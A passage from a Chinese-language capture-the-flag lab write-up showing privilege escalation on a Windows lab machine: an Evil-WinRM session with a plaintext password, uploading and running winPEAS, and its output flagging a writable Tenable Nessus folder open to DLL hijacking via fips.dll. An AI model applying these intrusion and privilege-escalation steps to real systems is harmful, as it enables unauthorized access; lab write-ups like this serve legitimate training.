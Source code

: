 ```powershell
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
没有什么可以利用的。
### 7.1. 提权检测
上传`winpeas.exe `检测一下
```bash
*Evil-WinRM* PS C:\Users\nesus\Documents> upload ../../../../../home/winpeas/winPEASx64.exe

Info: Uploading /home/kali/hmv/Nessus/../../../../../home/winpeas/winPEASx64.exe to C:\Users\nesus\Documents\winPEASx64.exe


*Evil-WinRM* PS C:\Users\nesus\Documents> cmd /c 'winPEASx64.exe cmd > output.txt'

^
^C
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1

┌──(root㉿kali)-[/home/kali/hmv/Nessus]
└─# evil-winrm -i 192.168.56.156 -u nesus -p 'Z#JuXH$ph-;v@,X&mV)'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\nesus\Documents> dir


    Directory: C:\Users\nesus\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/24/2024   9:21 PM          74535 output.txt
-a----        11/24/2024   9:18 PM        9842176 winPEASx64.exe

*Evil-WinRM* PS C:\Users\nesus\Documents> download output.txt

Info: Downloading C:\Users\nesus\Documents\output.txt to output.txt

Info: Download successful!

```
检测发现nessus存在dll注入
```shell
Tenable Nessus(Tenable, Inc. - Tenable Nessus)["C:\Program Files\Tenable\Nessus\nessus-service.exe"] - Autoload
File Permissions: nesus [AllAccess]
Possible DLL Hijacking in binary folder: C:\Program Files\Tenable\Nessus (nesus [AllAccess])
Tenable Nessus Network Security Scanner

   ==>  C:\Program Files\Tenable\Nessus\.winperms (nesus [AllAccess])
   ==>  C:\Program Files\Tenable\Nessus\fips.dll (nesus [AllAccess])
```
